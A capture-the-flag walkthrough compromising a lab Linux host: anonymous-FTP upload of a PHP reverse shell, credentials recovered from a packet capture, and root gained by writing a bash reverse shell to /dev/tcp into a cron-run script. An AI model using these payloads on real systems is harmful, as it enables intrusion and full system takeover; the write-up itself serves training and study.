



Target: 10.10.88.107

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.88.107

Nmap scan report for 10.10.88.107
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.1.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```
$ gobuster dir -u http://10.10.88.107 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

/files                (Status: 301) [Size: 312] [--> http://10.10.90.133/files/]
```

checking index



checking /files



### Findings:Looking for attack vectors

FTP can be accessed through Anonymous FTP login and in /files ftp files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.php5
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
<snip>
```

using the Anonymous FTP login upload trustme.php5 
```
$ ftp 10.10.88.107

ftp> cd ftp
250 Directory successfully changed.

ftp> send trustme.php5
local: trustme.php5 remote: trustme.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (44.7575 MB/s)
```

opening a nc listener on port 8888
```
$ nc -lnvp 8888
```

accessing uploaded file in /files/ftp




```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
$ cat recipe.txt

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love
```


## Lateral Movement:

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@startup:/$ ls -la

<snip>
drwxr-xr-x   2 www-data www-data  4096 Nov 12 04:53 incidents
<snip>

www-data@startup:/$ cd incidents

www-data@startup:/incidents$ ls -l

total 32
-rwxr-xr-x  1 www-data www-data 31224 Nov 12 04:53 suspicious.pcapng
```

getting the file, fire up a http server
```
www-data@startup:/incidents$ python3 -m http.server 8000
```

in kali
```
$ wget http://10.10.88.107:8000/suspicious.pcapng
```

analyzing the pcapng file

username: lennie

password: c4ntg3t3n0ughsp1c3

trying the the credentials
```
www-data@startup:/incidents$ su - lennie
```

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

```
lennie@startup:~$ id

uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
```

```
lennie@startup:~$ cat user.txt

<redacted>
```


## Priv Escalation:


scanning for crontab
```
lennie@startup:~# pspy64

```

looking for suspicious file/s
```
lennie@startup:~$ ls -la

total 20
drwx------ 4 lennie lennie 4096 Nov 12 04:53 .
drwxr-xr-x 3 root   root   4096 Nov 12 04:53 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt

lennie@startup:~$ cd scripts

lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 .
drwx------ 4 lennie lennie 4096 Nov 12 04:53 ..
-rwxr-xr-x 1 root   root     77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root   root      1 Apr 20 16:09 startup_list.txt

lennie@startup:~/scripts$ cat planner.sh

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

following /etc/print.sh
```
lennie@startup:~/scripts$ cat /etc/print.sh

#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -la /etc/ | grep 'print.sh'

-rwx------  1 lennie lennie    25 Nov 12 04:53 print.sh
```

writing to print.sh
```
echo -e '#!/bin/bash \nbash -i >& /dev/tcp/10.9.1.128/4242 0>&1' > /etc/print.sh
```

openning another nc listener on port 4242
```
nc -lnvp 4242
```

```
root@startup:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@startup:~# cat root.txt

<redacted>
```
